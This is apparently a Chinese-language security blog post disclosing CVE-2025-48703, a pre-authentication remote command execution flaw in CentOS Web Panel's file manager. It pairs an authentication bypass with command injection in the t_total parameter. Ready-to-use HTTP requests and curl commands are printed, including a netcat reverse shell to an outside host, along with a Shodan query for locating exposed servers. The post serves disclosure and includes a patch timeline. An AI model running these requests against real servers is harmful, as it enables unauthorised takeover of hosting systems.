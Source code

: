 #  CentOS Web 面板中的远程代码执行 - CVE-2025-48703  
 Ots安全   2025-07-07 08:37  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
介绍  
  
Centos Web Panel (CWP)是一个免费的网络托管控制面板，用于管理基于Centos和其他基于 RPM 的发行版的服务器。CWP 于 2013 年首次推出，是一个免费的开源网络托管控制面板，旨在简化基于 CentOS 的系统的服务器管理。它由 CWP 项目领导的一个小团队开发，旨在为cPanel和Plesk等需要昂贵许可证的商业控制面板提供替代方案。最初的重点是创建一个轻量级、用户友好的界面，用于管理运行CentOS的专用和 VPS 服务器上的 Web 服务器、电子邮件、DNS 和数据库。CentOS 是一个流行的 Linux 发行版，以其稳定性和与Red Hat Enterprise Linux (RHEL) 的兼容性而闻名。具有高级功能的付费版本于 2019 年出现，具有增强的安全功能。最后，在 2022 年至 2024 年间，该软件添加了对AlmaLinux和Rocky Linux等额外 Linux 发行版的支持。  
  
CentOS Web面板  
  
CWP 为管理员和用户提供了一种轻松配置和管理基本服务的方法，例如 Web 服务器（Apache/NGINX）、数据库（MySQL/MariaDB）、电子邮件系统（Postfix、Dovecot、RoundCube）、DNS（Bind）和安全功能（CSF、Mod Security）。CWP 使用图形界面简化了网站创建、应用程序安装（例如WordPress、Joomla）、用户管理和性能监控，为cPanel等付费解决方案提供了一种经济高效且功能强大的替代方案。  
  
在CentOS Web 面板(CWP) 中，管理界面（可通过 2087 或 2031 端口访问）和用户界面（可通过 2083 端口访问）在服务器管理中扮演着不同的角色。这两个应用程序都是基于 PHP 的，但管理界面（通过 2087 端口的 HTTPS 协议保护）专为系统管理员设计，提供对服务器的完全控制，允许执行诸如配置 Web 服务器（Apache/NGINX）、管理 DNS、设置电子邮件服务、创建用户帐户、监控资源以及实施配置服务器防火墙 (CSF) 等安全措施等任务。访问管理界面需要 root 或管理员凭据。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadpgW1ZYPMvXDLgklwJNs52WZpJDbfDFtpRlAE4Tc5gFUF38FwT0NwEpQYB1nuWNdp4lDRUpibT7XA/640?wx_fmt=png&from=appmsg "")  
  
相比之下，端口 2083 上的用户界面面向最终用户（例如网站所有者），并提供一组有限的工具来管理其特定的托管环境，包括网站文件、数据库、电子邮件帐户以及通过Softaculous安装的应用程序，而无需访问服务器范围的设置。这两个界面均由 CWP 守护程序 ( cwpsrv ) 提供支持，并通过 SSL/TLS 加密和用户特定的权限确保安全且基于角色的管理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadpgW1ZYPMvXDLgklwJNs528nfSal2dbXo2SficAcoPSdAINLTpLnre9R2Gwcu4NeYIGKPgPp8QMag/640?wx_fmt=png&from=appmsg "")  
  
CWP 还在端口 2096 上提供了一个 roundcube 实例来管理用户的电子邮件。  
  
这款网站管理解决方案在全球范围内广泛使用。您可以使用shodan.io 的搜索模式“Server: cwpsrv”查找 CWP 应用程序的实例。截至 2025 年 5 月，shodan.io 中引用的 CWP 实例超过 20 万个。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadpgW1ZYPMvXDLgklwJNs52JnGaFR8kQl6HYWEdh3a27icTr3qPJib5Wh0BT0yRN0SAmwt31jHVe8Tg/640?wx_fmt=png&from=appmsg "")  
  
CWP 的源代码受ionCube保护。IonCube是一款PHP 加密和授权工具，旨在保护和优化基于 PHP 的应用程序。它主要通过对脚本进行编码来保护专有 PHP 代码，使其不可读且防篡改，同时允许它们在配备ionCube Loader 扩展的服务器上高效运行。这使得开发人员能够在不暴露源代码的情况下分发商业软件，从而确保知识产权得到保护。这种保护措施极大地限制了查找 CWP 漏洞的方法。  
  
身份验证绕过  
  
用户面板提供文件管理功能。用户可以上传、移动、复制或压缩文件。他们还可以使用以下表单更改文件权限：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadpgW1ZYPMvXDLgklwJNs52P6EpIZlQmlcWDJbEgia1GHyzxxBUStNgHdqsOxO2gfZuzg4k2RqsXlg/640?wx_fmt=png&from=appmsg "")  
  
此表单生成以下 HTTP POST 请求：  
  
```
POST/cwp_30776ec647a8f390/myuser/myuser/index.php?module=filemanager&acc=changePerm HTTP/1.1Host: 127.0.0.1:2083Cookie: cwpsrv-3683e20446a6b40715757e2b05f10521=av0ebj5m5arro35vndm24lufhp; _firstImpression=true; cwpsrv-User-7b897959c0572726e032b381da363f2f=q8aefhfb7dq44m30gorb6a4k5f; cwp-well-known=6a28d0ddbd2d807d5aa015636f065b89Content-Length: 450Sec-Ch-Ua-Platform: "Linux"Accept-Language: fr-FR,fr;q=0.9Accept: application/json, text/plain, */*Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrTrcHpS9ovyhBLtbSec-Ch-Ua-Mobile: ?0User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36Origin: https://127.0.0.1:2083Sec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyReferer: https://127.0.0.1:2083/cwp_30776ec647a8f390/myuser/fileManager_v2.phpAccept-Encoding: gzip, deflate, brPriority: u=1, iConnection: keep-alive------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="fileName".bashrc------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="currentPath"/home/myuser/------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="recursive"------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="t_total"644------WebKitFormBoundaryrTrcHpS9ovyhBLtb–
```  
  
  
此请求使用 HTTP Cookies（cwpsrv-*）和 URL 参数来标识用户（myuser ）： POST /cwp_30776ec647a8f390/myuser/myuser/index.php?module=filemanager&acc=changePerm  
  
收到请求后，服务器会调用 chmod 系统命令。参数fileName指向的文件必须存在于currentPath中，并且currentPath必须位于/home/目录中（例如，/home/myuser/.bashrc）。 strace 的输出如下：  
  
```
[...]1384914:21:08.880573 execve("/bin/sh", ["sh", "-c", "chmod 644 \"/home/myuser/.bashrc\""], ["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "TEMP=/tmp", "TMPDIR=/tmp", "TMP=/tmp", "HOSTNAME=", "USER=myuser", "HOME=/home/myuser"]) = 0 <0.000222>1384914:21:08.887956 execve("/usr/bin/chmod", ["chmod", "644", "/home/myuser/.bashrc"], ["HOSTNAME=", "TMPDIR=/tmp", "USER=myuser", "TEMP=/tmp", "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "PWD=/usr/local/cwpsrv/var/services/users", "SHLVL=1", "HOME=/home/myuser", "TMP=/tmp", "\_=/usr/bin/chmod"]) = 0 <0.000098>[...]
```  
  
  
第一个问题源于身份验证机制未得到正确验证。发送不带任何用户标识符的请求会在服务器上产生同样的行为。例如，即使从 URL 中删除用户标识符，请求仍然会被处理：  
  
```
POST/myuser/index.php?module=filemanager&acc=changePerm HTTP/1.1Host: 127.0.0.1:2083Content-Length: 450Sec-Ch-Ua-Platform: "Linux"Accept-Language: fr-FR,fr;q=0.9Accept: application/json, text/plain, */*Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrTrcHpS9ovyhBLtbSec-Ch-Ua-Mobile: ?0User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36Origin: https://127.0.0.1:2083Sec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyAccept-Encoding: gzip, deflate, brPriority: u=1, iConnection: keep-alive------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="fileName".bashrc------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="currentPath"/home/myuser/------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="recursive"------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="t_total"644------WebKitFormBoundaryrTrcHpS9ovyhBLtb–
```  
  
  
攻击者需要知道一个有效的非root用户名（在管理界面创建）。可以使用以下命令生成此请求：  
  
```
$ curl -kis 'https://127.0.0.1:2083/myuser/index.php?module=filemanager&acc=changePerm' --data 'fileName=.bashrc&currentPath=/home/myuser/&t_total=644'
```  
  
  
命令执行（CVE-2025-48703）  
  
第二个问题是t_total参数中的命令注入。t_total 参数（在chmod系统命令中用作文件权限模式）似乎未得到适当的清理，允许攻击者注入任意命令。  
  
然后，利用上一个问题，未经身份验证的攻击者可以绕过身份验证过程，并使用以下请求在应用程序中触发命令注入：  
  
```
POST/myuser/index.php?module=filemanager&acc=changePerm HTTP/1.1Host: 127.0.0.1:2083Content-Length: 450Sec-Ch-Ua-Platform: "Linux"Accept-Language: fr-FR,fr;q=0.9Accept: application/json, text/plain, */*Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrTrcHpS9ovyhBLtbSec-Ch-Ua-Mobile: ?0User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36Origin: https://127.0.0.1:2083Sec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyAccept-Encoding: gzip, deflate, brPriority: u=1, iConnection: keep-alive------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="fileName".bashrc------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="currentPath"/home/myuser/------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="recursive"------WebKitFormBoundaryrTrcHpS9ovyhBLtbContent-Disposition: form-data; name="t_total"$(arbitrary_command)------WebKitFormBoundaryrTrcHpS9ovyhBLtb–
```  
  
  
最后，攻击者可以使用以下命令利用此漏洞：  
  
在受控服务器上设置监听端口：  
  
```
$ nc -v -n -l -p 9999Listening on 0.0.0.0 9999
```  
  
  
启动漏洞利用程序：  
  
```
$ curl -kis 'https://127.0.0.1:52083/myuser/index.php?module=filemanager&acc=changePerm' --data 'fileName=.bashrc&currentPath=/home/myuser&t_total=`nc 1.2.3.4 9999 -e /bin/bash`'
```  
  
  
等待应用程序重新连接：  
  
```
$ nc -v -n -l -p9999Listening on0.0.0.09999Connection received on5.6.7.843520iduid=1001(myuser) gid=1001(myuser) groups=1001(myuser)ls -lahtotal 728Kdrwxr-xr-x. 7 cwpsvc cwpsvc 238 May 311:11 .drwxr-xr-x. 14 cwpsvc cwpsvc 220 May 311:11 ..-rw-r--r-- 1 root root 12K Jul 82020 Authenticator.php-rw-r--r-- 1 root root 41K Sep 282021 codeEditor.php-rw-r--r-- 1 root root 9.7K Jul 82020 configmailclientdrwxr-xr-x. 2 cwpsvc cwpsvc 6 Mar 222021 cwp_brandingdrwxr-xr-x. 35 cwpsvc cwpsvc 4.0K Feb 1022:13 cwp_langdrwxr-xr-x. 3 cwpsvc cwpsvc 22 Feb 1022:13 cwp_theme-rw-r--r-- 1 root root 542K Mar 162023 fileManager2.php-rw-r--r-- 1 root root 90K Oct 192022 fileManager_v2.php-rw-r--r-- 1 root root 17K Jun 72023index.phpdrwxr-xr-x. 3 cwpsvc cwpsvc 77 May 311:11 logindrwxr-xr-x. 2 cwpsvc cwpsvc 26 May 311:11 traitslrwxrwxrwx. 1 root root 36 Feb 1109:06 myuser -> /usr/local/cwpsrv/var/services/users
```  
  
  
结论  
  
此漏洞利用场景已在Centos7 上的0.9.8.1204和0.9.8.1188版本上进行了测试，并于 2025 年 5 月 13 日报告给 CWP 开发人员，编号为CVE-2025-48703。该漏洞允许知晓 CWP 实例上有效用户名的远程攻击者在服务器上执行预先认证的任意命令。  
  
该漏洞已于 2025 年 6 月在最新版本0.9.8.1205中得到修补。  
  
时间线  
  
2025 年 5 月 13 日：首次与 CWP 接触。  
  
2025 年 5 月 23日：已分配 CVE-2025-48703。  
  
2025 年 6 月 18 日：版本0.9.8.1205上提供补丁。  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
